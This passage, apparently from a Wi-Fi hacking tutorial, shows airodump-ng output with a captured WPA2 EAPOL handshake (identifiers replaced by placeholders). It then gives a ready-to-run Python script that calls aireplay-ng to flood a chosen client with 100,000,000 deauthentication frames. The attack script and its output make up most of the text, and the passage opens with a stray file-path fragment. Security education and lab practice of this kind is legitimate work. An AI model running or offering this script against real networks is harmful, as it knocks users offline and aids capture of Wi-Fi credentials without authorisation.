     WIFI_MAC  -19  57      236       52    0  36  780   WPA2 CCMP   PSK  WIFI_NAME 

    BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

    WIFI_MAC  MOBILE_MAC  -19    6e- 1e   698     1102  EAPOL  WIFI_NAME     
    WIFI_MAC  DEVICE1_MAC  -55    6e- 6e     0       93                                 
    WIFI_MAC  DEVICE2_MAC  -28    6e-24      0       54 
    Quitting...
    ```

    ![Screenshot of mobile trying to reconnect to the network](../imgs/WhatsApp%20Image%202025-07-26%20at%2007.47.53.jpeg)

- Let's write down a Python script to automate this process of deauthentication attack. The script will take the wireless interface name, target client MAC address, and gateway (AP) MAC address as input and perform the deauthentication attack.

    ```python
    # Deauthentication Attack Script
    # This script performs a deauthentication attack on a specified Wi-Fi network.

    import os
    import subprocess
    def deauth_attack(interface, target_mac, gateway_mac):
        print(f"[+] Starting deauthentication attack on {target_mac} via {gateway_mac} using {interface}")
        
        # Construct the command for the deauthentication attack
        command = [
            "sudo", "aireplay-ng", "--deauth", "100000000", "-a", gateway_mac, "-c", target_mac, interface
        ]
        
        # Execute the command
        subprocess.call(command)
        
        
    # Example usage
    if __name__ == "__main__":
        # Fetch the interface name using iwconfig command
        interface = input("Enter the interface name (e.g., wlan0): ")
        target_mac = input("Enter the target MAC address (victim): ")
        gateway_mac = input("Enter the gateway (AP) MAC address: ")
        print(f"[+] Initiating Deauthentication attack on {target_mac} via {gateway_mac} using {interface}")
        deauth_attack(interface, target_mac, gateway_mac)
        print("[+] Deauthentication attack completed")
        